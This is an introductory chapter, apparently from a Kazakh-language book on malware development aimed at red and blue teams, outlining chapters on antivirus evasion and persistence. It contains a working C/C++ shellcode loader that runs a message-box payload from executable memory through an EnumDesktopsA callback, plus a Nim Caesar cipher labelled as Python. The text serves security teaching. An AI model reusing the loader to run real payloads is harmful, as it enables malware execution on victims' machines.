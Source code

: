 \newpage
\subsection{2. зиянды бағдарламаны әзірлеу дегеніміз не?}\label{2. зиянды бағдарламаны әзірлеу дегеніміз не?}

﷽

Red Team немесе Blue Team маманы болсаңыз да, зиянды бағдарламаларды әзірлеу әдістері мен айла-амалдарын үйрену сізге жетілдірілген шабуылдардың толық көрінісін береді. Сонымен қатар, классикалық зиянды бағдарламалардың көпшілігі әдетте Windows жүйесінде жазылады, бұл сізге Windows операциялық жүйесіне арналған бағдарламаларды әзірлеуде практикалық білім береді.     

Бұл кітаптағы оқу құралдар мен мысалдардың көпшілігі `Python` және `C/C++` бағдарламалау тілдерін терең түсінуді талап етеді:    

```cpp
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

int main() {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)NULL);
  return 0;
}
```

Кейде бізге Nim бағдарламалау тіліндегі кейбір кодты түсіну де қажет:    

```python
import strutils

proc caesar(s: string, k: int, decode = false): string =
  var k = if decode: 26 - k else: k
  result = ""
  for i in toUpper(s):
    if ord(i) >= 65 and ord(i) <= 90:
      result.add(chr((ord(i) - 65 + k) mod 26 + 65))

let msg = "The quick brown fox jumped over the lazy dogs"
echo msg
let enc = caesar(msg, 11)
echo enc
echo caesar(enc, 11, decode = true)
```

Негізі логикалық тұрғыдан кітап бес (4 + 1 бонус) тарауға бөлінеді:
- Зиянды бағдарламаларды жазудың түрлі айла-амалдары мен әдістері     
- Антивирусты (AV) алдау амалдары    
- Табандылық техникалары     
- Зиянды бағдарлама, криптография және зерттеулер      
- Linux зиянды бағдарламаларын әзірлеуге кіріспе      

Кітаптағы барлық материалдар менің [блогымдағы](https://cocomelonc.github.io/) жазбалардан негізделген.    

Сұрақтарыңыз болса, менің [элетронды поштам](mailto:cocomelonkz@gmail.com) арқылы қоюға болады    

Менің Github репозиториям: [https://github.com/cocomelonc](https://github.com/cocomelonc)    